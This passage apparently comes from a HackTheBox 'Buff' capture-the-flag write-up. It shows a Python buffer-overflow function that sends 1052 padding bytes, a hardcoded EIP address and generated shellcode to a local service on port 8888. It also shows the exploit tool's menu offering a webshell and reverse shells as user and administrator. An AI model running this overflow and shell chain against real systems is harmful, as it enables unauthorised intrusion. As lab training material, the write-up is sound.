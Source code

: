    Using the `gen_shellcode` function, we are going to generate and parse the shell-code for later usage.

3. Overflow

   ```python
   # Overflow buffer and get shell as admin
   def overflow(port):
       if not port_in_use(8888):
           raise Exception("Buffer-overflow was not executed, because port 8888 is not connected!")
       
       # Values for overflow
       buf = b"A"*1052
       eip = b"\x7B\x8A\xA9\x68"
   
       shellcode = gen_shellcode(port)
       
       # Overflow payload
       payload = buf + eip + shellcode
       
       # Connect to server
       log.info("Sending buffer-overflow payload to server...")
       s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
       s.connect(("127.0.0.1",8888))
       # Overflow buffer
       s.send(payload)
   ```

   Using the `overflow` function, we are calling the `gen_shellcode` function and sending the buffer-overflow payload to the server.

4. Profit

   Running the exploit, we successfully get a shell as root.

   ```python
   root@darkness:~# python3 buff.py 
   
     ____         __  __   _____                                      
    |  _ \       / _|/ _| |  __ \                                     
    | |_) |_   _| |_| |_  | |__) |_      ___ __                       
    |  _ <| | | |  _|  _| |  ___/\ \ /\ / / '_ \                      
    | |_) | |_| | | | |   | |     \ V  V /| | | |                     
    |____/ \__,_|_| |_|   |_|      \_/\_/ |_| |_|                     
     ____           _____ _           ___         __        ____      
    |  _ \         / ____| |         / _ \       / /       / __ \     
    | |_) |_   _  | |    | |__  _ __| | | |_  __/ /_   ___| |  | |___ 
    |  _ <| | | | | |    | '_ \| '__| | | \ \/ / '_ \ / _ \ |  | / __|
    | |_) | |_| | | |____| | | | |  | |_| |>  <| (_) |  __/ |__| \__ \
    |____/ \__, |  \_____|_| |_|_|   \___//_/\_\\___/ \___|\____/|___/
            __/ |                                                     
           |___/                                                      
   
    Twitter:    https://twitter.com/Chr0x6eOs
    Github:     https://github.com/Chr0x6eOs
    HackTheBox: https://www.hackthebox.eu/home/users/profile/134448
    
    _________________________________________________________________________
    
   
       [1] - Webshell
       [2] - Reverse-Shell as user (Buff\Shaun)
       [3] - Reverse-shell as admin (Buff\Administrator)
       [4] - Print flags
       [5] - Exit
   
       
   ```